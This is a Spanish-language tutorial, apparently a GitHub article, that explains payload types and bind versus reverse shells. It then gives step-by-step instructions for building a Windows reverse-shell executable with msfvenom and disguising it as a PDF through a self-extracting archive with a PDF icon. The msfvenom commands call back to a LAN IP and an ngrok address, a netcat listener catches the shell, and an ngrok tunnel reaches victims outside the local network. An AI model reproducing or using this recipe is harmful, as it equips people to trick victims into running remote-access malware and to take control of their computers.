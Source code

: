 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Incrustar+Payload+.EXE+a+un+archivo+.PDF"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>Qué es un PAYLOAD y cuáles son sus TIPOS</ins></h3>

En el campo de la seguridad informática el payload (*carga útil*) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.

El término de "**carga útil maliciosa**" o "**payload malicioso**" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras.  Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.

##### TIPOS de PAYLOADS

- **Payload BIND (Directo)**: Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.

- **Payload REVERSE (Inverso)**: Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto _1234_ por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida. 

En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

- <a href="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/ataqueXSS.md">Vulnerabilidad Cross-site scripting y secuestro de cookies</a>

- <a href="https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/">Diferencia entre payload Bind y Reverse</a>

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/O.S/img/tiposPayloads.png">
</p>

<h1 align="center"></h1>

### ➤ Incrustar payload .EXE 

En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
```

![1](https://user-images.githubusercontent.com/75953873/221320034-6f8e564e-c111-4554-8678-6580b10aabba.png)

- **-p**: Tipo de payload (para Windows de 64bits de tipo reverse).

- **LHOST**: IP de la máquina atacante.

- **LPORT**: Puerto escucha.

- **-f**: Formato del archivo (.exe).

- **-o**: Nombre del archivo (salida).

El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a `.ico` con la siguiente página (https://www.icoconverter.com/):

![2](https://user-images.githubusercontent.com/75953873/221322644-1b8a2990-3796-4154-9010-961142191c73.png)

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "_Añadir al archivo_".

![3](https://user-images.githubusercontent.com/75953873/221322932-e7c37e7f-3d3a-4f85-a130-23b65446df87.png)

Marcan la casilla de "_Crear un archivo autoextraíble_" y en el método de compresión seleccionan "_La mejor_".

![4](https://user-images.githubusercontent.com/75953873/221323181-d5cc8413-3faf-4f22-8355-00cef6ec84bc.png)

Luego, en el apartado de "**Avanzado**", dan clic en "_Autoextraíble_" **->** "_Instalación_" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

![5](https://user-images.githubusercontent.com/75953873/221323376-e204ff6f-470d-48ee-904e-a8dbd36befbd.png)

En la sección de "**Actualizar**" marcan las casillas de "_Extrar y actualizar ficheros_" y "_Sobrescribir todos los ficheros_".

![6](https://user-images.githubusercontent.com/75953873/221323534-9e55c199-7180-4dd1-9bd4-864cc94a9bd8.png)

Para añadir el icono hay que ir a "**Texto e icono**" y cargarlo en la última opción "_Cargar icono desde fichero_"; aquí seleccionan el logo convertido a `.ico`.

![7](https://user-images.githubusercontent.com/75953873/221323864-326a2cf4-8580-43e5-baf6-e9842b94ebf7.png)

Por útilmo, escogen el nombre del archivo malicioso.

![8](https://user-images.githubusercontent.com/75953873/221324091-a0926da4-c1d8-4737-a2cb-f70255f30b9b.png)

Desde la máquina atacante pondremos a escucha conexiones por el puerto `4444` con la herramienta de Netcat.

```
nc -nlvp 4444
```

- **-n**: Modo dirección IP númerica.

- **-l**: Modo escucha.

- **-v**: Modo verbose (detalles de conexiones).

- **-p**: Puerto específico de escucha.

Y esperamos que la víctima ejecute el documento malicioso y le de a "**Instalar**".

![9](https://user-images.githubusercontent.com/75953873/221324860-3dc1a8e3-116b-4812-b028-3e874f5d071c.png)

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

![10](https://user-images.githubusercontent.com/75953873/221324978-a2d0344f-fe32-4288-9252-ad6413dc15d1.png)

<h1 align="center"></h1>

#### ➤ Fuera de la red LAN

El método anterior solo funciona si la víctima se encuentra conectado a la misma red local que el atacante. Para hacerlo funcionar fuera de la red LAN hay que crear un túnel dinámico para convertir nuestra conexión (o servicio) local a público, esto gracias al proxy inverso que ofrece <a href="https://ngrok.com/download">**Ngrok**</a>. Por ejemplo, si tenemos un servicio arrancando en `http://localhost:8080`, lo que hará negrok es generar una URL dinámica del tipo `http://xxxxxx.ngrok.io` visible en internet que apunta a nuestro localhost.

- <a href="https://www.youtube.com/watch?v=JNpg_iA_zWc">Instalar NGROK en Linux</a>

El primer paso será crear un túnel TCP por el puerto 9999:

```
ngrok tcp 9999
```

![11](https://user-images.githubusercontent.com/75953873/221445377-9df84e93-3b3a-465f-b7b1-ad5fd7048351.png)

Ahora, crearemos nuevamente el payload pero está vez sustituimos el **LHOST** por la dirección de Ngrok y el puerto **LPORT**.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=0.tcp.sa.ngrok.io LPORT=12296 -f exe -o documento.exe
```

![12](https://user-images.githubusercontent.com/75953873/221445539-c34703b3-56f5-469f-bb03-ececf9cf19f7.png)

El puerto que utilizamos para abrir el túnel Ngrok fue `9999`. Por lo tanto, pondremos a escucha el mismo con Netcat:
```
nc -nlvp 9999
```

![13](https://user-images.githubusercontent.com/75953873/221445921-d0f74a2a-f3a7-4e84-84df-a4814ba0dc9b.png)



